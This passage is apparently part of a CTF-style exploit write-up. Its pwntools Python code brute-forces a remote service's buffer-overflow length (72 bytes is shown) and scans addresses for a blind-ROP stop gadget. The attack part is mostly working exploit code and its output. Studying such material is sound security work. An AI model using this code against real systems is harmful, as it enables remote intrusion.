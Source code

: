 ### **Check Overflow**

```python
def check_overflow():
    size=0
    i=0
    while True:
        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline('a'*i)
        try:
            recv = r.recvline()
        except Exception as e:
            r.close()
            size = i-1
            break
        r.close()
        i+=1
    return size
```

```shell
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] Overflow size: 72
```

### **Check Stop Gadget**

```python
def find_stop_gadget(size):
    p = log.progress("Searching for Stop gadget")
    base = 0x400000

    for offset in range(1,0x1000):
        addr = int(base + offset)

        payload = 'A' * size
        payload += p64(addr)

        if offset % 0x100 == 0:
            log.info('Progress to 0x%x' % offset)

        try:
            r = remote(ip,port,level='error')
            r.recvline()
            r.send(payload)
            recv = r.recv(timeout=0.2)
            r.close()

            if 'WelCome my friend,Do you know password?' in recv:
                p.success('Done')
                log.info('Stop Address : ' + hex(addr))
                return addr

        except Exception as e:
            r.close()
```
